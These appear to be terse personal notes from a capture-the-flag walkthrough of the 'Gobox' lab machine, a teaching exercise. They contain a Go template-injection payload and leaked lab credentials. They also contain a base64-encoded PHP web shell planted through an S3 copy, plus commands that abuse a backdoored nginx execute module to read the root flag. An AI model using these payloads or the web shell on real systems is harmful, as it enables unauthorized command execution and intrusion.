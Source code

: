 we use next payload in directories /forgot on 8080 port
email={{.Email}} and email={{.Password}}
ippsec@hacking.esports:ippsSecretPassword

after login we found exec command in source code of server:
![[Pasted image 20250204212954.png]]

echo "<?php system(\$_REQUEST['cmd']); ?>" | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo=
{ .DebugCmd "echo -n PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo= | base64 -d /tmp/shell.php"}
{ .DebugCmd "aws s3 cp /tmp/shell.php s3://website/shell.php"}

then in http://gobox.htb/shell.php?cmd=ls+/etc/nginx we found conf file 50-backdoor.conf with exec module /usr/lib/nginx/modules/ngx_http_execute_module.so
![[Pasted image 20250204230133.png]]

https://github.com/limithit/NginxExecute?tab=readme-ov-file

in this module we found command that give for us system command
view-source:http://gobox.htb/shell.php?cmd=strings+/usr/share/nginx/modules/ngx_http_execute_module.so+|+grep+run
![[Pasted image 20250204230011.png]]
and we use this command 
view-source:http://gobox.htb/shell.php?cmd=curl+-g+http://127.0.0.1:8000/?ippsec.run[%22cat+/root/root.txt%22]